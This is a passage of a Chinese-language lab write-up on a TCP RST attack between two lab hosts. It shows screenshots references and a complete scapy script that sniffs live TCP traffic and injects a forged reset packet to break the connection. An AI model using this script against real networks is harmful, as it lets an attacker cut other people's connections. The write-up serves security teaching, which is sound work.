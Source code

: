 进入攻击者主机，运行程序，可以看到程序把报文具体内容打印出来了，flag为4，说明RESET位置为1：

![image-20220511200106568](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511200106568.png)

也可以在wireshark中抓到自己发的包：

![image-20220511200445566](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511200445566.png)

再回到主机10.9.0.6，可以看到显示连接断开了：

![image-20220511200515174](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511200515174.png)



### Launching the attack automatically

`scapy`中的`sniff`函数可以抓包：

```python
dpkt  = sniff(iface = "br-fb6120b59b51", count = 150, filter="tcp",timeout=5)
```

`sniff`有很多参数，这次用到了其中4个：

- `iface`：指定抓包的网卡
- `count`：指定最多嗅探多少个符合要求的报文
- `filter`：用来筛选抓取的信息，这里只抓TCP数据包
- `timeout`：5m后自动停止嗅探

当停止嗅探后，`dpkt`中的最后一项即最后一个10.9.0.6向10.9.0.7发送的数据包。通过`dpkt[x][IP].src`这样的格式可以解析IP层和TCP层中所需要的各字段：

![image-20220511215811964](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511215811964.png)

完整代码：

```python
#!/usr/bin/env python3
from socket import timeout
from scapy.all import *

dpkt  = sniff(iface = "br-fb6120b59b51", count = 150, filter="tcp",timeout=5)
# wrpcap("demo.pcap", dpkt)

n=len(dpkt)-1   # start from dpkt[0]

srcIP=dpkt[n][IP].src
dstIP=dpkt[n][IP].dst
ip = IP(src=srcIP, dst=dstIP)

sportTCP=dpkt[n][TCP].sport
dportTCP=dpkt[n][TCP].dport
seqTCP=dpkt[n][TCP].seq
tcp = TCP(sport=sportTCP, dport=dportTCP, flags="R", seq=seqTCP)

pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```
